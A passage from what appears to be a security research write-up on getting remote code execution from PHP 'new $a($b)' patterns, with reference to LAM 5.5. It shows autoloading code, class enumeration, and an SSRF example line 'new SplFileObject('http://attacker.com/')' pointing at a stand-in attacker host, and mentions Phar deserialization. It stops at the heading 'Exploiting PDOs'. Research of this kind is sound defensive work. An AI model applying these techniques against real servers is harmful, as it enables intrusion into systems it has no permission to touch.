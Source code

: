 Autoloading functions are set by registering callbacks via spl_autoload_register or by defining __autoload. They are called when an instance of an unknown class is trying to be created.


# An example of an autoloading function
spl_autoload_register(function ($class_name) {
        include './../classes/' . $class_name . '.php';
});

# An example of an autoloading function, works only in PHP < 8.0
function __autoload($class_name) {
        include $class_name . '.php';
};

# Calling spl_autoload_register with no arguments enables the default autoloading function, which includes lowercase($classname) + .php/.inc from include_path
spl_autoload_register();

Depending on the PHP version, and the code in the autoloading functions, some ways to get a Remote Code Execution via autoloading might exist.

In LAM 5.5, I wasn’t able to find any useful custom class, and I didn’t have autoloading either.
Exploiting “new $a($b)” via Built-In Classes

When you don’t have custom classes and autoloading, you can rely on built-in PHP classes only.

There are from 100 to 200 built-in PHP classes. The number of them depends on the PHP version and the extensions installed. All of built-in classes can be listed via the get_declared_classes function, together with the custom classes:

var_dump(get_declared_classes());

Classes with useful constructors can be found via the reflection API.
Displaying constructors and their parameters using the reflation API: https://3v4l.org/2JEGF

If you control multiple constructor parameters and can call arbitrary methods afterwards, there are many ways to get a Remote Code Execution. But if you can pass only one parameter and don’t have any calls to the created object, there is almost nothing.

I know of only three ways to get something from new $a($b).
Exploiting SSRF + Phar deserialization

The SplFileObject class implements a constructor that allows connection to any local or remote URL:

new SplFileObject('http://attacker.com/');

This allows SSRF. Additionally, SSRFs in PHP < 8.0 could be turned into deserializations via techniques with the Phar protocol.

I didn’t need SSRF because I had access to the local network. And, I wasn’t able to find any POP-chain in LAM 5.5, so I didn’t even consider exploiting deserialization via Phar.
Exploiting PDOs
